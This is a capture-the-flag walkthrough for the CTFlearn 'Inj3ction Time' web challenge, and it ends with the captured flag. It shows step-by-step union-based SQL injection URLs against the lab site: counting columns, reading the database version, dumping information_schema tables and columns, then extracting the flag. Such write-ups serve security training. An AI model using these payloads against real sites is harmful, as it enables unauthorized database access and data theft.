

# Inj3ction Time - Web



## Initial Thoughts

* sqli

# Walkthrough

Navigating to the website and testing some stuff we can start guessing the number of columns using

```
https://web.ctflearn.com/web8/?id=1%20UNION%20SELECT%201,2,3,4--
```

It gives us a valid output so we know there are 4 columns

Lets try changing a number to display the version

```
https://web.ctflearn.com/web8/?id=1%20UNION%20SELECT%201,version(),3,4--
```

It works! Now we have the version. Lets try and dump tables from information_schema

```
https://web.ctflearn.com/web8/?id=1%20UNION%20SELECT%20table_schema, table_name,3,4 from information_schema.tables--
```

Scroll down and we find something interesting


Lets pop the column name

```
https://web.ctflearn.com/web8/?id=1%20UNION%20SELECT%20column_name, table_name,3,4 from information_schema.columns--
```

Now we can concat the column and hopefully get the flag

```
https://web.ctflearn.com/web8/?id=1%20AND%201=2%20union%20select%20concat(f0und_m3),2,3,4%20from%20w0w_y0u_f0und_m3--
```

<details>
	<summary>Flag</summary>

abctf{uni0n_1s_4_gr34t_c0mm4nd}
</details>